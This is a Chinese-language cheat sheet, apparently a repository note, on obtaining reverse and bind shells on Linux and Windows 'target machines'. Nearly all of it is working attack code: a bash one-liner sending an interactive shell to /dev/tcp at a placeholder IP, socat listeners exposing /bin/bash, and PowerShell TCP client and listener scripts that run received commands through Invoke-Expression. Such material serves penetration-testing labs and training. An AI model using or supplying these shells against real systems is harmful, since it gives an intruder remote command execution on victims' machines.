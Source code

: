 # 反弹 shell
### 反向 shell
* 本地监听端口: `socat tcp4-listen:6666 -`
* Linux 靶机连接端口
    ```bash
    bash -i &> /dev/tcp/192.168.xx.xx/6666 0<&1
    ```
* Windows 靶机连接端口
    ```ps1
    $client = New-Object System.Net.Sockets.TcpClient("192.168.xx.xx", 6666)
    $stream = $client.GetStream()
    $reader = New-Object System.IO.StreamReader($stream)
    $writer = New-Object System.IO.StreamWriter($stream)
    $writer.AutoFlush = $true

    while ($client.Connected) {
        $writer.Write("PS> ")
        $command = $reader.ReadLine()
        $output = Invoke-Expression ". { $command } 2>&1" | Out-String
        $writer.WriteLine($output)
    }
    $client.Close()
    ```
### 正向 shell
* Linux 靶机监听端口
    ```bash
    socat tcp4-listen:6666,reuseaddr,fork exec:/bin/bash,pty,stderr,setsid,sigint,sane
    ```
* Windows 靶机监听端口
    ```ps1
    $listen = [System.Net.Sockets.TcpListener]6666
    $listen.Start()

    while ($true) {
        $client = $listen.AcceptTcpClient()
        $stream = $client.GetStream()
        $reader = New-Object System.IO.StreamReader($stream)
        $writer = New-Object System.IO.StreamWriter($stream)
        $writer.AutoFlush = $true

        while ($client.Connected) {
            $writer.Write("PS> ")
            # 只接受单行命令
            $command = $reader.ReadLine()
            # 客户端退出 PowerShell 使用 break 而非 exit
            $output = Invoke-Expression ". { $command } 2>&1" | Out-String
            $writer.WriteLine($output)
        }
        $client.Close()
    }

    $listen.Stop()
    ```
* 本地连接端口: `socat - tcp4:192.168.xx.xx:6666`